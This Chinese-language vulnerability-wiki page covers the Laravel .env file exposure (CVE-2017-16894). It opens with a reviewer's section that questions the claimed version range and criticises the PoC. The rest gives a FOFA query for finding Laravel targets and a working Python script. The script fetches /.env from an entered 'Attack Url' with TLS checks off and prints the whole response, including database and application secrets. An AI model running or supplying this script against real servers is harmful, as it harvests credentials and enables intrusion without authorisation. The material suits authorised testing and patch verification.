

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：声称&lt;=5.5.21；正文正确指出配置不当，缺框架修复点与默认部署对照

代码与实验材料：GET /.env后只查APP_NAME并输出全部内容；会收集真实数据库/应用秘密，APP_NAME不唯一且合法env可能无此键

来源证据范围：Threekiii转PeiQi，只有工具banner出处，没有厂商公告

- **适用与权限边界（1）**：把配置暴露绑定单一框架版本缺证据；依据：.env可下载主要依赖文档根目录/静态文件访问，未证明&lt;=5.5.21代码缺陷或升级能修。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（2）**：检测与凭据输出风险；依据：不核状态/内容类型，仅APP_NAME字符串易误判；完整response明文输出敏感数据，TLS校验关闭。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Laravel .env 配置文件泄露 CVE-2017-16894

## 漏洞描述

Laravel Framework 是 Taylor Otwell 软件开发者开发的一款基于 PHP 的 Web 应用程序开发框架。 Laravel framework 5.5.21 及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
Laravel framework <= 5.5.21
```

## 网络测绘

```
app="Laravel-Framework"
```

## 漏洞复现

访问目标 url http://xxx.xxx.xxx.xxx/.env

当配置不当且在影响范围内时会出现 **.env 可被下载的情况**，导致数据库账号密码等敏感信息的泄露

这里使用 POC 脚本来进行信息获取




## 漏洞 POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/.env"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "APP_NAME" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] .env 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
